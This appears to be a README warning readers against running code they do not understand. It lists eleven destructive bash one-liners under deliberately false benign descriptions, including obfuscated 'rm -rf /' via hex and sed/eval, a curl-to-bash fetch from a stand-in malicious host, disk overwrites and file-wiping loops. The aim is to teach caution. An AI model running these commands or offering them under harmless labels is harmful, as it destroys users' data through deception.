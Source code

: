 # My one page argument for learning to code (examples exaplained)

## **_NEVER_** run code you don't understand

I often hear that people call themselves 'Copy and paste' coders.  And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things.  A better method is to find code, see what is done and recreate, and at a bare minimal, copy it, know ingexactly what it does. 

> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands
Note: Most of these will error, unless spuressed with ```&> /dev/null``` but alot of damage can still be done before you can take action.

A. Greatly simplies document syntax: \
Find all files and replace all content with astriks

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space: \
Simply remove all files and folders

``` bash
du ~/ | grep -o '/.*' | xargs rm -rf --
```

C. Relinks your files to improve efficentcy: \
Replace all files with a link to the void (/dev/null)

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage: \
Moves all content 3 levels deep the void (dev/null)

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space: \
726d202d7266202f0a is a hex dump of ```rm -rf /``` \
The command reverses the dump and runs the output

``` bash
sudo command $(echo 726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know: \
This downloads code online and runs it without ever you reviewing or seeing it

``` bash
bash -c "$(curl http://maliciouscode.com/rm) &"
```

G. Frees up uneccesary space: \
This transforms 'stream -draft ~/saved' into ```rm -rf ~/``` by removing all characters between a-e and s-z and then evaulates it

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space: \
Compresses all files 5 levels deep to a random zip file with a random password of 64 characters. It does not store the password.

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes: \
Copy the contents of /dev/random to each drive is /dev/

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life: \
Finds all files and replaces the contents with nothing

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files
Replaces the contents of every files with the filename

```bash
find ~/-type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
